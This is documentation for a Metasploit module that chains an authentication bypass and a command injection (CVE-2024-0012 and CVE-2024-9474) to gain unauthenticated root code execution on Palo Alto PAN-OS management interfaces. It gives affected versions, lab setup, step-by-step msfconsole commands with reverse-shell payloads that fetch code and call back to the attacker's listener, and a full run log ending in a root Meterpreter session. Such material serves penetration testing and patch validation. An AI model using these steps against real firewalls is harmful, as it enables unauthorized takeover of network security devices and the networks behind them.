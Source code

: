 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following versions are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payloads `cmd/linux/http/x64/meterpreter_reverse_tcp`, `md/linux/http/x64/meterpreter/reverse_tcp`,
and `cmd/unix/reverse_bash`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### WRITABLE_DIR
The full path of a writable directory on the target. By default it will be `/var/tmp`. The exploit will write the
payload as a series of chunks to this location, before executing the payload. The written artifacts are then deleted.

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.86.100   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host
   WRITABLE_DIR  /var/tmp         yes       The full path of a writable directory on the target.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pHLZiKRnmfR      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.100:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 7...
[*] Uploading payload chunk 2 of 7...
[*] Uploading payload chunk 3 of 7...
[*] Uploading payload chunk 4 of 7...
[*] Uploading payload chunk 5 of 7...
[*] Uploading payload chunk 6 of 7...
[*] Uploading payload chunk 7 of 7...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.100
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.100:54266) at 2024-11-21 16:35:38 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.100
OS           : Red Hat  (Linux 4.18.0-240.1.1.28.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
